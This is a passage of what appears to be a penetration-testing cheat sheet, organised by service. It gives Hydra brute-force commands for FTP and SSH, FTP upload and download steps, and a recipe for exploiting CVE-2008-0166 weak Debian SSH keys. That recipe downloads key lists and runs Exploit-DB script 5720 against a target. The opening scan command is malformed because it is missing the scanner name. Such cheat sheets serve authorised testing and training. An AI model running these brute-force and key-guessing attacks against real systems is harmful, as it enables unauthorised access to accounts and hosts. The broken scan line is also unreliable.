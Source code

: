 ### UDP

```
sudo -sU -sS -sC -sV -oA <NAME>.udp <IP> -v
```

------

## FTP - 21

### Brute force

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
```

### Downloading file

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```

### Uploading file

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```

------

## SSH - 22

### Brute force

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

### CVE-2008-0166

```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```
